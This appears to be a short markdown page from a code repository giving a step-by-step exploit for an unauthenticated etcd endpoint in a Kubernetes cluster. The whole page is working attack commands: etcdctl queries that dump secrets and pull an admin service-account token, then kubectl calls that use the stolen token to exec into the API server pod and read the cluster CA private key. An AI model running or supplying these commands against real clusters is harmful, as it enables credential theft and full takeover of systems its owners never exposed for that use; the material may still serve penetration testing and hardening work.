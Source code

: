 ## Unauthenticated ETCD

1. Exploiting this takes a couple of steps
2. Tell etcdctl to use etcd3 `export ETCDCTL_API=3`
3. First we need to dump some secrets out of the etcd database 
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[CLUSTERIP]:2379 get / --prefix --keys-only | grep token`
4. Then we'll need a service account token to authenticate to the cluster with. Looking through the list of accounts we can see an admins-account
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get /registry/secrets/kube-system/admins-account-token-[RAND]`
  The service account token starts with ey and ends just before the word `kubernetes.io` in the token. 
5. With the service token we can use kubectl , first get the API pod name
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system get po`

6. Then get the key   
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`
